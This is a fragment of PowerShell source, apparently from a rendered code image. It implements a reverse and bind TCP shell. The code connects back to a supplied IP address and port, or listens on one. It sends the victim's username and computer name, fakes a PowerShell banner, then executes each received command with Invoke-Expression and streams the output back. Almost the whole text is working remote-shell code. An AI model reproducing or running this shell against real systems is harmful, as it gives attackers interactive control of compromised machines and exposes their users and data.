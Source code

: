 ```powershell
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()
            $client = $listener.AcceptTcpClient()
        }

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target."
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
```